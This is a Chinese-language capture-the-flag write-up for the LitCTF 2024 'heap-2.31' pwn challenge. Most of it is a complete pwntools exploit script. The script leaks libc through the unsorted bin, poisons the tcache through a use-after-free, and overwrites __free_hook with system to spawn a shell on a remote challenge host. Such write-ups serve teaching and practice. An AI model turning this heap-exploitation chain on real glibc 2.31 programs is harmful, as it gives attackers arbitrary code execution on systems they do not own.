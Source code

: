 ```yaml
---
title: '[LitCTF 2024]heap-2.31'
date: 2024-11-13 13:50 +0800
categories: [ctf,pwn]
tags: [unsortbin_leaklibc,tacahe,libc2.31,free_hook]
---
```

> Problem: [[LitCTF 2024]heap-2.31](https://www.nssctf.cn/problem/5616)

## 思路
填满`tacahe`，利用`unsortbin`泄漏出`free_hook`,利用`uaf`修改`tacahe`的`fd`实现任意内存地址读写，劫持`free_hook`

## EXP
```python3

from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
elf = ELF('./heap')
lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#io = gdb.debug('./heap')
io = remote('node4.anna.nssctf.cn',28242)
def create(idx,size):
    io.sendlineafter(b'>>',str(1))
    io.sendlineafter(b'idx?',str(idx))
    io.sendlineafter(b'size?',str(size))

def delete(idx):
    io.sendlineafter(b'>>',str(2))
    io.sendlineafter(b'idx?',str(idx))

def show(idx):
    io.sendlineafter(b'>>',str(3))
    io.sendlineafter(b'idx?',str(idx))

def edit(idx,content):
    io.sendlineafter(b'>>',str(4))
    io.sendlineafter(b'idx?',str(idx))
    io.sendlineafter(b'content : \n',content)

for i in range(9):
    create(i,0x88)
for i in range(8):
    delete(i)

show(7)
free_hook = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))+0x2268
log.info(hex(free_hook))
lib_base = free_hook-lib.sym['__free_hook']
sys_addr = lib_base+lib.sym['system']

edit(5,p64(free_hook))
[create(i,0x88)for i in range(10,13)]
edit(12,p64(sys_addr))

edit(8,b'/bin/sh\x00')
delete(8)
io.interactive()
```

## 总结
	要注意`tacahe`利用`uaf`修改为`free_hook`地址时，不能使用最末尾（第七个）的块，那样会导致无法申请，出现脱链的状况。
